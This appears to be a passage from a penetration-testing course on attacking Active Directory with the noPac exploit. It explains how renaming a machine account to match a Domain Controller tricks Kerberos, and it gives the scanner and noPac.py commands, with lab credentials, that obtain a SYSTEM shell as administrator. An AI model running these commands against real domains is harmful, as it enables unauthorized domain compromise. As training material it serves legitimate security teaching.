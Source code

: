 This exploit path takes advantage of being able to change the SamAccountName of a computer account to that of a Domain Controller. By default, authenticated users can add up to ten computers to a domain. When doing so, we change the name of the new host to match a Domain Controller's SamAccountName. Once done, we must request Kerberos tickets causing the service to issue us tickets under the DC's name instead of the new name. When a TGS is requested, it will issue the ticket with the closest matching name. Once done, we will have access as that service and can even be provided with a SYSTEM shell on a Domain Controller. The flow of the attack is outlined in detail in this blog post.

```bash
sudo python3 scanner.py inlanefreight.local/forend:Klmcargo2 -dc-ip 172.16.5.5 -use-ldap
```
```bash
sudo python3 noPac.py INLANEFREIGHT.LOCAL/forend:Klmcargo2 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```

**If opsec or being "quiet" is a consideration during an assessment, we would most likely want to avoid a tool like smbexec.py. The focus of this module is on tactics and techniques. We will refine our methodology as we progress in more advanced modules, but we first must obtain a solid base in enumerating and attacking Active Directory.**